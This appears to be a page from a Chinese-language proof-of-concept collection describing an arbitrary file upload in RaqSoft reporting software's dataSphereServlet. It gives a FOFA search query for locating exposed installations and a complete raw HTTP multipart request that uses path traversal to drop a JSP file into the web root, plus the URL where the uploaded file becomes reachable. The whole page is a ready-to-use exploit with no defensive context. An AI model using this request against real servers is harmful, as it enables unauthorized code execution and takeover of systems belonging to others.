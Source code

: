 ## 润乾报表dataSphereServlet任意文件上传

## fofa
```
body="/raqsoft"
```

## poc
```
POST /demo/servlet/dataSphereServlet?action=38 HTTP/1.1
Host: 
Content-Length: 408
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAT7qVwFychEm0Dt7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:6868/demo/raqsoft/guide/jsp/olap.jsp
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=D46F0E193FBD9BC2FCFB32D684296765
Connection: close

------WebKitFormBoundaryAT7qVwFychEm0Dt7
Content-Disposition: form-data; name="openGrpxFile"; filename="1.jsp"
Content-Type: text/plain

<% out.println("123"); %>
------WebKitFormBoundaryAT7qVwFychEm0Dt7
Content-Disposition: form-data; name="path"

../../../
------WebKitFormBoundaryAT7qVwFychEm0Dt7
Content-Disposition: form-data; name="saveServer"

1
------WebKitFormBoundaryAT7qVwFychEm0Dt7--
```
![6bd4f09c49b722c1fca0f0b409775c0a](../../images/bd4e87b8-f8b4-41da-8f24-a9d988c1645b.png)

文件路径：`http://127.0.0.1:6868/demo/1.jsp`

![07321afe81c0e7b261bdb201c492e9bc](../../images/31e37298-b669-4bd7-a0c1-47afc5222f05.png)
